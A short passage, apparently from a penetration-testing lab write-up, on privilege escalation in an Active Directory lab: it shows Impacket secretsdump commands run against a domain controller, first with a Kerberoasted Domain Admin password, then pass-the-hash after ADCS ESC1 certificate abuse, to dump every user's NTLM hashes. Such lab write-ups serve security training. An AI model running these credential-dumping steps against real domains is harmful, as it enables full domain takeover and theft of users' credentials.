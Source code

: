 # 5 - Privilege Escalation

## Impacket Secretsdump with Kerberoasted Domain Admin Credentials
With the cracked Domain Admin clear-text password obtained via Kerberoasting and Hashcat, we can now perform full credential dumping on the Domain Controller using Impacket:
```bash
secretsdump.py -dc-ip 10.10.X.10 svc_exchange:1q2w3e4r@10.10.X.10
```

![image](https://github.com/user-attachments/assets/bfc72ba9-8f9f-48b6-b556-a0f22c902488)


## Impacket Secretsdump with ADCS Abuse
Using the `ESC1` template vulnerability in Active Directory Certificate Services (ADCS), we requested a certificate via `Certipy-ad` and authenticated as a Domain Admin using the NTLM hashes.
```bash
secretsdump.py 'lab.local/ricktheam@10.10.100.10' -hashes ':70ab51edc11496f7f3e6d0eaee5d9dac' -dc-ip 10.10.100.10  -target-ip 10.10.100.10 
```

![image](https://github.com/user-attachments/assets/d674998b-1f35-4bcb-936c-6332eeb998b2)


This gives us:
- Cleartext passwords (if present)
- NTLM hashes for all users
- The `golden keys` to the entire domain!
